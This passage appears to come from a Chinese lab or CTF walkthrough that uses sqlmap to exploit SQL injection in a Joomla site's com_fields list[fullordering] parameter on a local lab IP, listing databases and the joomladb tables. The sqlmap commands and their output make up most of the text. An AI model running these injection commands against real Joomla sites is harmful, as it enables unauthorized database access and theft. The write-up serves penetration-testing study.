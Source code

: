 
```
information_schema
joomladb
mysql
performance_schema
sys

```

<img src="https://img-blog.csdnimg.cn/f70aa4f57d0b442db40e6c4c3ba2eb70.png" alt="在这里插入图片描述">

#### 2.获取当前数据库的名字joomladb

```
sqlmap -u "http://192.168.233.179/index.php?option=com_fields&amp;view=fields&amp;layout=modal&amp;list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --current-db

```

<img src="https://img-blog.csdnimg.cn/25a34fd5d6ee4cdb95547f4192f9c19b.png" alt="在这里插入图片描述">

>  
 跑出来当前使用数据库为joomladb 


<img src="https://img-blog.csdnimg.cn/e4664f68ac8844549bf810dd63f75541.png" alt="在这里插入图片描述">

#### 3.获取获取joomladb的表名

```
sqlmap -u "http://192.168.233.179/index.php?option=com_fields&amp;view=fields&amp;layout=modal&amp;list[fullordering]=updatexml" --risk=3 -p list[fullordering] -D "joomladb" --tables

```

<img src="https://img-blog.csdnimg.cn/987d146cc21943e198101e4c856bdd05.png" alt="在这里插入图片描述">

>  
 跑出76张表 <img src="https://img-blog.csdnimg.cn/7990f10f502f413bbd38a8d369bd5c8b.png" alt="在这里插入图片描述"> 


```
Database: joomladb
[76 tables]
+---------------------+
| #__assets           |
| #__associations     |
| #__banner_clients   |
| #__banner_tracks    |
| #__banners          |
| #__bsms_admin       |
| #__bsms_books       |
| #__bsms_comments    |
| #__bsms_locations   |
| #__bsms_mediafiles  |
| #__bsms_message_typ |
| #__bsms_podcast     |
| #__bsms_series      |
| #__bsms_servers     |
| #__bsms_studies     |
| #__bsms_studytopics |
| #__bsms_teachers    |
| #__bsms_templatecod |
| #__bsms_templates   |
| #__bsms_timeset     |
| #__bsms_topics      |
```